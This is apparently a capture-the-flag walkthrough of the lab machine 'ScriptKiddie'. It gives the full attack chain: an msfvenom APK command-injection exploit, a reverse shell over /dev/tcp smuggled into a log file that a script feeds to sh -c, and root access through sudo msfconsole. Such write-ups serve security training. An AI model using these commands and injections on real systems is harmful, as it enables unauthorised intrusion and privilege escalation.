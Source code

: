 Target: 10.10.10.226

## Enumeration:

nmap
```
$ nmap -sC -sV 10.10.10.226

Nmap scan report for 10.10.10.226
Host is up (0.047s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

checking 10.10.10.226:5000

![index](scriptkiddie1.png)

### Findings:Looking for attack vectors

The website can run nmap, msfvenom, and searchsploit.
Look for possible exploits for these three services.


## Foothold:

This module exploits a command injection vulnerability in Metasploit Framework’s msfvenom payload generator when using a crafted APK file as an Android payload template. Affects Metasploit Framework <= 6.0.11 and Metasploit Pro <= 4.18.0. The file produced by this module is a relatively empty yet valid-enough APK file. To trigger the vulnerability, the victim user should do the following: msfvenom -p android/ -x

[Exploit Link](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection.rb)

Metasploit
```
$ msfconsole
```

```
search msfvenom
use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
set LHOST tun0
run
[+] msf.apk stored at /home/kali/.msf4/local/msf.apk
```

upload the file in template

![payload](scriptkiddie2.png)

opening a nc listener on port 4444
```
$ nc -lnvp 4444
```

upgrading shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
kid@scriptkiddie:~$ id

uid=1000(kid) gid=1000(kid) groups=1000(kid)
```

```
kid@scriptkiddie:~$ cat user.txt

<redacted>
```


## Lateral Movement:

looking for suspicious file/s
```
kid@scriptkiddie:~$ cd /home

kid@scriptkiddie:/home$ ls

pwn  kid

kid@scriptkiddie:/home$ cd pwn

kid@scriptkiddie:/home/pwn$ ls -la

total 44
drwxr-xr-x 6 pwn  pwn  4096 Feb  3 12:06 .
drwxr-xr-x 4 root root 4096 Feb  3 07:40 ..
lrwxrwxrwx 1 root root    9 Feb  3 12:06 .bash_history -> /dev/null
-rw-r--r-- 1 pwn  pwn   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 pwn  pwn  3771 Feb 25  2020 .bashrc
drwx------ 2 pwn  pwn  4096 Jan 28 17:08 .cache
drwxrwxr-x 3 pwn  pwn  4096 Jan 28 17:24 .local
-rw-r--r-- 1 pwn  pwn   807 Feb 25  2020 .profile
-rw-rw-r-- 1 pwn  pwn    74 Jan 28 16:22 .selected_editor
drwx------ 2 pwn  pwn  4096 Feb 10 16:10 .ssh
drwxrw---- 2 pwn  pwn  4096 Feb  3 12:00 recon
-rwxrwxr-- 1 pwn  pwn   250 Jan 28 17:57 scanlosers.sh

kid@scriptkiddie:/home/pwn$ cat scanlosers.sh 

#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi

```

scanloser.sh reads /home/kid/logs/hackers as variable log. It then prints out its contents then is piped to cut with the delimeter 'space' and removes everything but the 3rd field onwards. It is then piped to sort to only see unique (no repeating) set of strings then lastly piped to a while loop to do a nmap scan to the ip.

opening another nc listener on port 4242
```
$ nc -lnvp 4242
```

crafting a reverse shell
```
kid@scriptkiddie:/home/pwn$ echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/<ip>/4242 0>&1' #" >> /home/kid/logs/hackers
```

```
pwn@scriptkiddie:~$ id

uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)
```


## Priv Escalations:

```
pwn@scriptkiddie:~$ sudo -l

Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

```
pwn@scriptkiddie:~$ sudo msfconsole
```

```
msf6 > id

uid=0(root) gid=0(root) groups=0(root)
```

```
msf6 > cat /root/root.txt

<redacted>
```
